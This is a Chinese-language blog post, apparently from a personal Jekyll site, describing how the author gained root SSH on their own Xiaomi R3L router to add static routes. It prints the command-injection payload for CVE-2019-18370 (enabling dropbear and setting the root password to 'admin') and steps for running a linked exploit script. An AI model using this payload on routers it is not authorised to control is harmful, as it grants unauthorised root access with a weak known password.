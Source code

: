 ```yaml
---
layout: post
title:  "小米路由器3C (R3L) SSH 开启方法"
date:   2020-04-22 09:23:39 +0800
categories: router
---
```

# 初衷：
 在串连式双路由器型环境下设置静态路由，奈何小米路由器没提供这个功能，只能开启ssh 手动添加路由器表
# 原理：

  利用 远程命令执行漏洞（CVE-2019-18370）root权限 , 具体是 /api/xqnetdetect/netspeed 存在命令注入漏洞 , 远程执行脚本如下
  ```bash
nvram set ssh_en=1; nvram commit ;
sed -i ';:x:N:s/if \[.*\; then\n.*return 0\n.*fi/#tb/;b x'; /etc/init.d/dropbear 
/etc/init.d/dropbear start
(echo 'admin'; sleep 1; echo 'admin') | passwd 'root' >/dev/null 2>&1
  ```
  具体实现查看: [remote_command_execution_vulnerability]

### 工具
1. 固件：[miwifi_r3l_firmware_a5c81_2.9.217.bin]
2. python3
3. 脚本: [remote_command_execution_vulnerability.py]



# 步骤：
1. 执行 python3 remote_command_execution_vulnerability.py ,输入 stok (来源于路由器登录后url)
{% highlight bash %}
% python3 remote_command_execution_vulnerability.py 
stok: 03b2da2xxxxx
{% endhighlight %}

2. 执行后 就应该能登录了, ssh root/admin
   `ssh root@192.168.31.1 `

# 折腾过程
1. mini r1l 漏洞 set_router_wifiap ,binwalk 查看源码发现已封堵
2. 小米路由器的nginx配置文件错误，导致目录穿越漏洞, 结果 404, 已封堵
3. 使用 miwifi_r3_all_55ac7_2.11.20.bin 固件，文件太大 无法升级固件，r3l NorFlash内存大小 16M
4. 自定义固件,binwalk 解压固件，修改lua, dd切分，squashfs打包，发现公钥校验rom, 此路不通
5. 使用ttl(非编程器),uart_en=0 无法输入, 此路不通

# Q&A
大家如果有问题 可以提issue 到 [howblog github]

# 参考: 
1. [Xiaomi_Mi_WiFi_R3G_Vulnerability_POC]
2. [SSH开启命令]
3. [CVE-2019-18370]



[SSH开启命令]: https://www.jianshu.com/p/37d0aa13614c
[CVE-2019-18370]:   https://github.com/UltramanGaia/Xiaomi_Mi_WiFi_R3G_Vulnerability_POC/blob/master/report/report.md
[Xiaomi_Mi_WiFi_R3G_Vulnerability_POC]: https://github.com/UltramanGaia/Xiaomi_Mi_WiFi_R3G_Vulnerability_POC
[miwifi_r3l_firmware_a5c81_2.9.217.bin]: /assets/miwifi_r3l_firmware_a5c81_2.9.217.bin
[remote_command_execution_vulnerability.py]:/assets/remote_command_execution_vulnerability.py
[howblog github]: https://github.com/mysansa52/howblog.github.io/issues
[remote_command_execution_vulnerability]: https://github.com/yiyijia/yiyijia.github.io/blob/master/assets/remote_command_execution_vulnerability.py